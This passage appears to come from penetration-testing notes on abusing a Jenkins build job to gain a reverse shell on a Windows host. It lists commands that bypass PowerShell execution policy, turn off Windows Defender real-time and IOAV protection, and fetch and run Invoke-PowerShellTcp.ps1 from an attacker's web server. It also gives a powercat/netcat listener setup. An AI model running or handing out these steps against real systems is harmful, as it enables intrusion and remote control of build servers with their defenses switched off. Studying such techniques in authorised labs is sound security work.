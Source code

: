 2.	Pick a project to play with…and add Build Steps with the Execute Windows batch command option….disable the protections and then grab your script from the webserver that you are hosting it on. Save your changes.
a.	Powershell -ep bypass
b.	Powershell Set-MpPreference -DisableRealtimeMonitoring $true
c.	Powershell Set-MpPreference -DisableIOAVProtection $true
d.	Powershell iex (iwr http://172.16.x.x/Invoke-PowerShellTcp.ps1 -UseBasicParsing)

![5271e97c057a0379498c84536edbf822.png](../../_resources/cabb0c5a33a84b4a9524fe81b0134b7e.png)
3.	Spin up your webserver and a listener. Powercat -l -v -p 53 -t 1000; In linux using rlwrap with netcat will work. 

![30d8fa32713391c2813b91d4f551864a.png](../../_resources/9b6e8249c8d8457ab5a8739f9ccda2b5.png)
![3b7117b78e82c2828fbb3a5ce2d70a54.png](../../_resources/2358e2c457724f5997676af6ef579d04.png)
4.	Build the project with “Build Now” in Jenkins and win.  
![b2bdb6535c80b54e297e13f5ef908cfe.png](../../_resources/a0e292a56f0d432f82bfe78b3c2aaf82.png)
